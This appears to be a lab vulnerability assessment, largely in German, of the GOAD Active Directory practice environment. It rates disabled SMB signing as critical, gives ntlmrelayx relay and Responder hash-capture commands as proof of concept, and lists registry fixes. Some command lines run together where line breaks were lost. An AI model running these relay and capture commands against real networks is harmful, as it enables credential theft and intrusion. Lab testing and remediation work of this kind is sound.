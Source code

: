 # GOAD-Vulnerability-Assessment

# GOAD Lab - Comprehensive Vulnerability Assessment

## Executive Summary

Diese detaillierte Schwachstellenanalyse basiert auf allen gesammelten Reconnaissance-Daten, Scan-Ergebnissen und erfolgreichen Exploits im GOAD Lab (192.168.20.0/24). Die Bewertung folgt dem CVSS 3.1-Standard und priorisiert kritische Sicherheitslücken für sofortige Remediation.

---

## 1. Critical Vulnerabilities (CVSS 9.0-10.0)

### 1.1 SMB Signing Completely Disabled - BRAAVOS (192.168.20.23)

**CVSS Score:** 9.1 (Critical)
**Vector:** AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

**Technical Details:**

```
Host: braavos.essos.local (192.168.20.23)
Service: SMB (Port 445)
Configuration: message_signing: disabled (dangerous, but default)
Guest Access: account_used: guest
```

**Exploitation:**
- SMB Relay attacks via ntlmrelayx
- NTLM hash capture via Responder
- Lateral movement ohne Authentifizierung
- Credential harvesting from network traffic

**Proof of Concept:**

```bash
# SMB Relay Attackecho "192.168.20.23" > targets.txt
ntlmrelayx.py -tf targets.txt -smb2support -c "powershell.exe -enc <payload>"# Responder für Hash Captureresponder -I eth0 -rdwv
```

**Impact:**
- Complete system compromise
- Domain credential exposure
- Lateral movement to other systems
- Data exfiltration capabilities

**Remediation:**

```powershell
# Sofortige SMB-Härtung via Group PolicySet-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters" -Name "RequireSecuritySignature" -Value 1Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\lanmanworkstation\parameters" -Name "RequireSecuritySignature" -Value 1
```
